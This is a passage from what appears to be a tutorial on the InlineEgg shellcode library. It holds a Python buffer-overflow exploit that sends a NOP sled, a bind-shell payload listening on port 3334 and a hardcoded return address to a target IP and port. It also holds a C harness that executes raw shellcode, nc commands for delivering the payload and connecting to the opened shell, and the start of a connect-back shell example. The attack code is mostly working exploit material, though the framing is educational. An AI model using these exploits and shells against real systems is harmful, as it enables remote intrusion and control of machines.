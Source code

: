    print "Egg len: %d" % len(egg)
   return egg

def main():
   if len(sys.argv) < 3:
      raise Exception, "Usage: %s <target ip> <target port>"

   # connect to target
   sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   sock.connect((sys.argv[1], int(sys.argv[2])))

   # create egg
   egg = listenShellEgg('0.0.0.0',3334)

   # exploit

   retAddr = struct.pack('<L',0xbffffc24L)
   toSend  = "\x90"*(1024-len(egg))
   toSend += egg.getCode()
   toSend += retAddr*20

   sock.send(toSend)

main()
---------------------------------------------------------

   To test all the examples here you can use the following C program.

--- tester,c --------------------------------------------
int main() {
	char buf[1024];

	read(0,buf,1024);
	((void(*)())buf)();
}
---------------------------------------------------------

   And now, for example, using two different shell prompts ([1] and [2]):

gera@violent[1]: nc -v -l -p 3333|strace ./tester      # wait for the sent egg and pipe it to tester (strace helps)
gera@violent[2]: ./example2.py 127.0.0.1 3333          # "exploit" tester listening on port 3333
gera@violent[2]: nc -v 127.0.0.1 3334                  # connect to 3334, where the egg is listening 

if you want the egg to connect back to you, only do:

--- example3.py -----------------------------------------
#!/usr/bin/python

from inlineegg.inlineegg import *
import socket
import struct
import sys
